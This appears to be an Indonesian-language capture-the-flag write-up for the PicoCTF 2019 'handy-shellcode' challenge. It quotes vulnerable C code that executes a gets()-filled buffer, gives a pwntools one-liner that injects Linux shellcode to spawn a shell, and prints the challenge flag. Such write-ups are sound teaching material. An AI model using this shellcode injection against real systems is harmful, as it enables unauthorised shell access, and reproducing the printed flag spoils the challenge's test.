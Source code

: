 # handy-shellcode - Points: 50
<b>Description : </b>This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9 on the shell server. Source.
<b>Hints : </b>You might be able to find some good shellcode online.
# Solved
Disarankan menggunakan Linux untuk mengkoneksi dengan shell tersebut.<br>
<b>ssh (Username pada website PicoCTF2019)@2019shell1.picoctf.com</b> setelah koneksi akan ada input untuk password dari username tersebut. <br>
<b>Letak Celah (vuln.c) : </b>
```cpp
// line 10 - 13
void vuln(char *buf){
  gets(buf);
  puts(buf);
}

// line 24
char buf[BUFSIZE]; // BUFSIZE = 148

// ...
// line 31
((void (*)())buf)();
```
Dari sini bisa kita lihat pada baris 24, pada baris 24 memberikan sebuah variabel "char pointer" / char * / char[] sebesar 148 byte.
hal tersebut sama saja perintah untuk membuat memory banyak yang kosong, al-hasil dapat kita gunakan sebagai <b>Binary Exploitation</b>.<br>
Saat kita menjalankan aplikasi tersebut, kita sudah dapat memiliki akses untuk membaca file flag.txt, Tapi bagaimana ?.<br>
Exploit yang saya gunakan adalah :
```
(python -c "import pwn; print(pwn.asm(pwn.shellcraft.linux.sh()))"; cat) | ./vuln
# Anda bisa jalankan command ini pada koneksi ssh tersebut
```
Setelah <b>Exploit</b> dijalankan, anda sudah masuk dalam <b>Shellcode</b>. Setelah mendapatkan hak akses untuk membaca, ketik command
```
cat flag.txt
```
Anda akan mendapatkan flag tersebut.<br>
Maksud dari <b>pwn.asm(pwn.shellcraft.linux.sh())</b> adalah, membuat fungsi agar dapat mengeksekusi shellcode untuk "linux".
<br>
Flag : <b>picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}</b>
